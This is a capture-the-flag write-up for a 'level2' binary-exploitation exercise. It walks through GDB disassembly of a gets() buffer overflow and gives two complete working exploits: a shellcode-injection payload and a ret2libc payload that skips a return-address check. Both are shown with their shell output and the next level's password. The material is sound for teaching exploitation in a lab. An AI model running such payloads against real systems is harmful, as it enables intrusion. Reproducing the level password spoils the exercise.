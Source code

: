 ## Clue for Exploration

In your journey through this challenge, take a closer look at how different functions within the program interact. Pay special attention to the way data is handled — particularly, spots where data might exceed its designated space. This could be a key area to explore. Think about the implications of overloading the program with data and how it might alter the program's intended path. Utilize debugging tools to observe these interactions and remember, every trial is a step towards understanding the puzzle. The true essence of solving lies in the process of experimenting and learning.

---

## Analyzing the Vulnerable Code

We start our journey by examining the binary's functions, focusing on the `main` and `p` functions. This is done using the GNU Debugger (GDB):

```bash
$ gdb ./level2
(gdb) info functions
All defined functions:
[...]
0x080484d4  p
0x0804853f  main
[...]
```

Disassembling these functions provides us with insights into their assembly-level operations:

```bash
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
(gdb) disassemble p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

**Key Observations:**
- The `main` function's sole purpose is to call `p`.
- In `p`, we notice the use of `gets`, a function infamous for allowing buffer overflows due to its lack of input size checking.

---

# Buffer Overflow Exploit

## Identifying the Vulnerability

The primary vulnerability here lies in the use of `gets` within `p`. This function writes input to a buffer without checking its size, enabling us to overflow the buffer and overwrite adjacent memory areas.

## Crafting the Exploit

### Finding the Shellcode

We opt for a shellcode designed to spawn a shell. This shellcode, taken from the [Exploit Database](https://www.exploit-db.com/exploits/41757), is compact and effective for our purpose:

`\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

### Determining the Buffer Overflow Point

To find out at which point the buffer overflows, we use a [pattern generator tool](https://wiremask.eu/tools/buffer-overflow-pattern-generator/). It helps us to determine that the overflow occurs at an offset of `80` bytes. This was verified using GDB:

```bash
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

### Finding the Return Address

To redirect the execution after the buffer overflow, we need the return address. We use `ltrace` to find that `strdup` returns to `0x0804a008`.

```bash
$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                              = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
)                                                   = 0xbffff6fc
puts(""
)                                                                                        = 1
strdup("")                                                                                      = 0x0804a008
+++ exited (status 8) +++
```

## Executing the Exploit

We construct and execute the exploit as follows:

```bash
$ (python -c 'print("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "0"*(80-21) + "\x08\xa0\x04\x08")' && cat) | ./level2
j
 X�Rh//shh/bin��1�̀00000000000000000000000000000000000000000000000000000�
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

This line of code carefully crafts a payload that injects the shellcode into the memory and overwrites the return address to execute our shellcode.

---

# Ret2Libc Exploit Walkthrough

Ret2Libc (Return-to-Libc) is an alternative exploit technique that doesn't require injecting shellcode but instead redirects the program flow to execute existing library functions.

## Finding System and /bin/sh Addresses

We need the addresses of the `system` function and the string `/bin/sh` in memory. These are found using GDB:

```bash
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xb7e6b060  __libc_system
0xb7e6b060  system
0xb7f49550  svcerr_systemerr
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

## Bypassing the Comparison Check

In `p`, there's a `cmp` instruction that compares a value with `0xb0000000`, preventing a straightforward call to `system`. We circumvent this by setting up our payload to return to the next instruction after the comparison.

## Crafting the Ret2Libc Exploit

The structure of our payload is critical. It's designed as `system - return address - /bin/sh`:

```bash
$ (python -c 'print("0"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "SHIT" + "\x58\xcc\xf8\xb7")' && cat) | ./level2
0000000000000000000000000000000000000000000000000000000000000000>000000000000>`��SHITX���
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Executing this command crafts a payload that overflows the buffer, bypasses the comparison check, and then uses the program's own code to spawn a shell.
